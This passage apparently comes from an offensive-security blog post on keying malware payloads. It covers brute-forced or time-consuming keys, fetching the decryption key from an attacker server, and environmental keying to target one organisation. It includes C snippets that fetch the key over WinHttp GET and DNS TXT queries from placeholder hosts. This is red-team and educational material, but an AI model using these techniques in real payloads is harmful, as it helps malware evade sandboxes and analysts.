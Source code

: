 Key verification is based on comparing the hash of the decrypted data with a precalculated, hardcoded hash value.

## Time-consuming operations
Instead of brute forcing a key, we could implement any mathematical calculation which lasts more than just a few seconds on a typical desktop computer and gives some unguessable value as a result. Examples include: big prime number factorization (like trying to break RSA encryption), hashing some data a billion times - the only limit is your imagination.

## Key delivery
Instead of calculating the key at runtime, our malicious application can retrieve it from our server. We can implement key hosting based on DNS, HTTP or any other suitable protocol. Taking it further we could serve the key based on a user agent or cookie sent by the beacon, but it a different topic (prefably for an upcoming post about Command & Control implementation).

Below is an example `HTTP GET` request:

```c
HINTERNET hSession = WinHttpOpen(L"Mozilla 5.0", WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
HINTERNET hConnection = WinHttpConnect(hSession, L"domain.or.ip", INTERNET_DEFAULT_HTTP_PORT, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", L"keying.html", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, NULL);
WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
WinHttpReceiveResponse(hRequest, 0);
DWORD responseLength, readDataLength = 0;
WinHttpQueryDataAvailable(hRequest, &responseLength);
PBYTE response = new byte[responseLength + 1];
WinHttpReadData(hRequest, response, responseLength, &readDataLength);
printf("%s\n", response);
```

And here is an example `DNS TXT` query:

```c
PDNS_RECORDA ppDNSQueryResults;
DnsQuery_A("some.domain.tld", DNS_TYPE_TEXT,
    DNS_QUERY_TREAT_AS_FQDN | DNS_QUERY_BYPASS_CACHE | DNS_QUERY_NO_HOSTS_FILE | DNS_QUERY_NO_NETBT | DNS_QUERY_NO_MULTICAST | DNS_QUERY_WIRE_ONLY | DNS_QUERY_ACCEPT_TRUNCATED_RESPONSE,
    NULL, &ppDNSQueryResults, NULL);
PCHAR txtData = ppDNSQueryResults->Data.TXT.pStringArray[0];
printf("%s\n", txtData);
```

# Environmental keying
This one is somewhat similar to sandbox evasion based on user names, domain names etc. However the idea here is to target specific organization or even a person with our payload by making sure that is won't execute on a wrong machine. Specific environmental traits (like mentioned AD domain name) can be used in conditional statements or even for data decryption. This is actually catalogued as a MITRE ATT&CK technique: [Execution Guardrails: Environmental Keying](https://attack.mitre.org/techniques/T1480/001/).

